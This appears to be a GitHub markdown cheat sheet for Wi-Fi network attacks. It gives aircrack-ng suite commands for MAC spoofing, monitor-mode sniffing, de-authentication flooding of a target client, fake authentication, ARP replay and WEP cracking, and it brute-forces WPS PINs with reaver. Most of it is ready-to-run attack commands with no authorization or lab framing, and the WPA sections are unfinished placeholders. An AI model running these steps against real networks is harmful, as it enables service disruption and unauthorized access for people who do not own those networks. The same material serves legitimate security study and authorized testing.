# Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`aerodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password

1. [Change wireless mode](#changewirelessmode) to monitor
2. Router must be on WPS not be configured "Push Button" or "PBC", only way to know is to test
3. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
4. Do Some (30) [Fake Authentification Attack](#fakeauth)
5. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
